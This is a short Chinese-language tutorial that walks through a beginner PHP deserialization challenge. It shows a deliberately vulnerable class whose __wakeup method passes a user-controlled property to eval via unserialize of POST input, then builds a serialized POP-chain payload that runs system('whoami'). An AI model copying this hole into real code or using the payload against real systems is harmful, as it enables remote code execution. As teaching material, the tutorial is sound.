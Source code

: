### 简单题目尝鲜

```php
<?php
class Test {
    public $phone = '';
    var $ip = '';

    public function __wakeup () {
        $this->getPhone();
    }

    public function __destruct() {
        echo $this->getIp();
    }
    
    public function getPhone() {
        // echo $this->phone;
        @eval($this->phone);
    }

    public function getIp() {
        echo $this->ip;
    }
}
//$t =new Test();
//echo serialize($t);  //O:4:"Test":2:{s:5:"phone";s:0:"";s:2:"ip";s:0:"";}

$source = $_POST['source'];
$p2 = unserialize($source);
?>
```

我们该如何触发 getPhone() 方法中的 eval() 呢？注意魔术方法的触发时机，POP链构造如下

```php
<?php
header("content-type:text/html;charset=utf-8");  //设置编码

 class Test {
     public $phone = '';
     var $ip = '';
 }

 $t = new Test();
 $t->phone = 'system("whoami");';
 $t->ip  = '';
 echo serialize($t);
 ?>
```

```
source=O:4:"Test":2:{s:5:"phone";s:17:"system("whoami");";s:2:"ip";s:0:"";}
```
